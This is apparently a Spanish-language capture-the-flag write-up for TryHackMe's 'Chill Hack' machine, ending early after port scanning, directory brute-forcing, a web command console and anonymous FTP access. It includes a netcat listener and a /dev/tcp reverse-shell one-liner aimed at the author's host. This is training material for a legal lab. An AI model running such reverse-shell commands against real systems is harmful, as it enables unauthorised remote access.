 ```yaml
---
title: Write-Up Chill Hack
description: Write-Up sobre la máquina Chill Hack de TryHackMe
published: false
date: 2025-01-24T11:53:03.469Z
tags: tryhackme
editor: markdown
dateCreated: 2025-01-24T11:20:08.121Z
---
```


# Write Up
Bienvenido a mi Write Up de la máquina [Chill Hack de TryHackMe](https://tryhackme.com/r/room/chillhack). Esta máquina es considerada facil y se puede hacer en unos 45 minutos.
## Preparación
Lo primero que haremos será abrir el archivo de VPN otorgado por TryHackme, y le haremos un ping a la ip de la máquina que nos han dado
![imagen_hacking_chill-hack_1ping.png](/imagen_hacking_chill-hack_1ping.png)

## Escaneo y primer vistazo
Una vez comprobado que no hay problemas con el ping, haremos un escaneo de puertos para observar que podemos ver. Para ello hacemos un 
``` bash
nmap -sT -Pn -sV 10.10.38.123
```
![imagen_hacking_chill-hack_2nmap.png](/imagen_hacking_chill-hack_2nmap.png)

Como podemos observartenemos los siguientes puertos abiertos:
- 21: FTP -> Servidor FTP
- 22: SSH -> Para conexiones remotas
- 80: HTTP -> Para servicio web

Debido a que no tenemos credenciales de SSH, vamos a probar primero con los otros dos servicios.
### HTTP
Si nos dirigmos a nuestro navegador y ponemos la IP de nuestra máquina, podemos cargar un servicio web donde parece ser que son cosas de deporte.
![imagen_hacking_chill-hack_3website.png](/imagen_hacking_chill-hack_3website.png)

Podemos hacer un **dirb**, para analizar todos los subdirectorios que tiene.
``` bash
dirb http://10.10.38.123
```
![imagen_hacking_chill-hack_10dirb1.png](/imagen_hacking_chill-hack_10dirb1.png)
![imagen_hacking_chill-hack_11dirb2.png](/imagen_hacking_chill-hack_11dirb2.png)
Como observamos, hemos encontrado un directorio llamado *secret*, que dentro un index.html, asi que vamos a mirar que es.
![imagen_hacking_chill-hack_4secret.png](/imagen_hacking_chill-hack_4secret.png)

Una vez dentro, observamos lo que parece ser una terminal, por lo que vamos a poner comandos simples como 
``` bash
whoami
```
Como podemos ver, nuestra página ha cambiado, nos ha devuelto el comando y ahora parece ser que hay un gif.
![imagen_hacking_chill-hack_5comandobueno.png](/imagen_hacking_chill-hack_5comandobueno.png)

Vamos a intentar crear una shell reversa, recomiendo el uso de [RevShell](https://www.revshells.com).
En mi máquina Kali vamos a poner
```bash
nc -lnvp 9000
```
![imagen_hacking_chill-hack_6shellkali.png](/imagen_hacking_chill-hack_6shellkali.png)
Y en la consola de la página vamos a poner:
```bash
sh -i >& /dev/tcp/10.9.3.9/9000 0>&1
```
Lamentablemente, parece que el comando no ha funcionado. Volveremos a esto más adelante, antes vamos a ir al servidor FTP
![imagen_hacking_chill-hack_7comandomalo.png](/imagen_hacking_chill-hack_7comandomalo.png)
### Servidor FTP
Nos conectamos al servidor con el usuario *anonymous* y sin contraseña.
```bash
ftp 10.10.38.123
```
![imagen_hacking_chill-hack_8ftp.png](/imagen_hacking_chill-hack_8ftp.png)

Haciendo el comando **dir**, podemos listar todo lo que hay y nos podemos encontrar un archivo llamado *note.txt*. Los comandos que hemos puesto ahora son:
``` ftp
dir
get note.txt
```
![imagen_hacking_chill-hack_9get.png](/imagen_hacking_chill-hack_9get.png)
